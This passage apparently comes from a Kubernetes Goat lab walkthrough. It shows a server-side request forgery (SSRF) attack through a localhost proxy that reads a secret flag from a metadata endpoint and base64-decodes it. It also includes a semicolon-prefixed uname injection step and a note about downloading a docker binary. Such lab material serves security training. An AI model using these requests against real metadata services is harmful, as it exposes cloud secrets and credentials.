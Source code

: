 ## Interacting with Metadata server
* Next we can download the official `docker` static binary from the internet [https://download.docker.com/linux/static/stable/](https://download.docker.com/linux/static/stable/). In order to determine which binary we need, we can run the following command for system discovery

```bash
;uname -a
```

After enumerating through the entire key values, finally we can see that there is a flag at http://metadata-db/latest/secrets/kubernetes-goat endpoint.

```bash
curl -H 'content-type: application/json' localhost:1234 --data-raw '{"endpoint":"http://metadata-db/latest/secrets/kubernetes-goat","method":"GET","headers":""}' 
```

* We can decode the secret flag.

```bash
curl -H 'content-type: application/json' localhost:1234 --data-raw '{"endpoint":"http://metadata-db/latest/secrets/kubernetes-goat","method":"GET","headers":""}'  | jq .data |tr -d '"'| base64 -d &&echo 
```
